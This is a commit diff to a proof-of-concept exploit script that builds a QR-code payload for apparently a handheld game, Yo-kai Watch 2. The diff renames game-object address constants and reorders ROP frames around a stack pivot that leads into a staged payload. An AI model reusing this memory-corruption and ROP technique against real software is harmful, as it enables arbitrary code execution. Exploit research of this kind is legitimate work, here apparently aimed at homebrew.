

PoC/yw2: fix field-node trigger chain

Changed region(s): [[0.2188, 0.1875, 0.7812, 0.7812]]

diff --git a/PoC/yw2/yw2_qr_poc.py b/PoC/yw2/yw2_qr_poc.py
@@ -22,11 +22,10 @@ N_OWNER_ADDR = 0x166351C4
 
 # Game objects
 DEV = 0x00857CC8
-WF = 0x08D87378
+FIELD_NODE = 0x08D87378
 FIELD = 0x08A0B310
 BK = 0x08D87360
-RPG_T = 0x08D87380
-FIELD_REF_SLOT_ADDR = 0x008594AC
+FIELD_NODE_ENTITY = 0x08D87380
 
 # Functions and ROP gadgets for this game version.
 PIVOT = 0x0011E678  # Context load and stack pivot
@@ -65,7 +64,7 @@ ALLOC_CTX_OFF = 0x0D8
 VIEW_CTX_OFF = 0x118
 ROP_CHAIN_OFF = 0x158
 DEV_SLOT_OFF = 0x1C8
-WF_SLOT_OFF = 0x1CC
+FIELD_NODE_SLOT_OFF = 0x1CC
 RESTORE_TEMPLATE_OFF = 0x1D0
 EXIT_CTX_OFF = 0x204
 YOKAI_CTX_OFF = EXIT_CTX_OFF - 0x0C
@@ -101,7 +100,7 @@ def build_object(base):
     # Initial fake screen object / PIVOT context.
     p32(b, 0x00, base + 0x40)
     p32(b, 0x04, FIELD)
-    p32(b, 0x08, RPG_T)
+    p32(b, 0x08, FIELD_NODE_ENTITY)
     p32(b, 0x0C, 0)
     p32(b, 0x14, 1)
     p32(b, 0x34, base + INITIAL_STACK_OFF)
@@ -120,10 +119,9 @@ def build_object(base):
         p32(b, off + 0x14, pc)
 
     frame(INITIAL_STACK_OFF + 0x00, 0, 0, N_OWNER_ADDR + 4, 0, STR_R1_R2)  # owner + 0x04 = 0
-    frame(INITIAL_STACK_OFF + 0x18, 0, FIELD, FIELD_REF_SLOT_ADDR, RET_TRUE, STR_R1_R2)  # RET_TRUE also occupies fake-vtable slot base+0x84.
-    frame(INITIAL_STACK_OFF + 0x30, 0, base + VIEW_CTX_OFF, SCRATCH_ADDR + 4, 0, STR_R1_R2)  # [SCRATCH_ADDR+4] = base+VIEW_CTX_OFF
-    frame(INITIAL_STACK_OFF + 0x48, 0, PIVOT, SCRATCH_ADDR + 0xC, 0, STR_R1_R2)  # [SCRATCH_ADDR+0xC] = PIVOT
-    frame(INITIAL_STACK_OFF + 0x60, base + YOKAI_CTX_OFF, 0, 0, 0, PIVOT)  # call CREATE_YOKAI_FUNC, then ALLOC_CTX_OFF
+    frame(INITIAL_STACK_OFF + 0x18, 0, base + VIEW_CTX_OFF, SCRATCH_ADDR + 4, RET_TRUE, STR_R1_R2)  # [SCRATCH_ADDR+4] = base+VIEW_CTX_OFF; RET_TRUE at base+0x84.
+    frame(INITIAL_STACK_OFF + 0x30, 0, PIVOT, SCRATCH_ADDR + 0xC, 0, STR_R1_R2)  # [SCRATCH_ADDR+0xC] = PIVOT
+    frame(INITIAL_STACK_OFF + 0x48, base + YOKAI_CTX_OFF, 0, 0, 0, PIVOT)  # call CREATE_YOKAI_FUNC, then ALLOC_CTX_OFF
 
     # Allocation context.
     p32(b, ALLOC_CTX_OFF + 0x00, base + DEV_SLOT_OFF)  # r0 = pointer to word containing DEV
@@ -140,7 +138,7 @@ def build_object(base):
 
     # View-pop context. The same memory backs view+0x40/+0x48:
     #   view = base+ALLOC_CTX_OFF, view+0x40 = base+VIEW_CTX_OFF+0, view+0x48 = base+VIEW_CTX_OFF+8.
-    p32(b, VIEW_CTX_OFF + 0x00, base + WF_SLOT_OFF)  # entries pointer
+    p32(b, VIEW_CTX_OFF + 0x00, base + FIELD_NODE_SLOT_OFF)  # entries pointer
     p32(b, VIEW_CTX_OFF + 0x04, 0)
     p32(b, VIEW_CTX_OFF + 0x08, 0x00010001)  # entry count = 1
     for off in range(0x0C, 0x34, 4):
@@ -184,7 +182,7 @@ def build_object(base):
         p32(b, ROP_CHAIN_OFF + 4 * i, word)
 
     p32(b, DEV_SLOT_OFF, DEV)
-    p32(b, WF_SLOT_OFF, WF)
+    p32(b, FIELD_NODE_SLOT_OFF, FIELD_NODE)
     for i, word in enumerate(MATERIAL):
         p32(b, RESTORE_TEMPLATE_OFF + 4 * i, word)
 
@@ -216,7 +214,7 @@ def build_stage1(blob, stage2_size):
     b = bytearray(STAGE1_BLOB_OFF)
     p32(b, 0x00, P + 0x40)
     p32(b, 0x04, FIELD)
-    p32(b, 0x08, RPG_T)
+    p32(b, 0x08, FIELD_NODE_ENTITY)
     p32(b, 0x0C, P + STAGE1_CTX_OFF)
     p32(b, 0x14, 1)
     p32(b, 0x34, SCRATCH_ADDR + 0x1C)
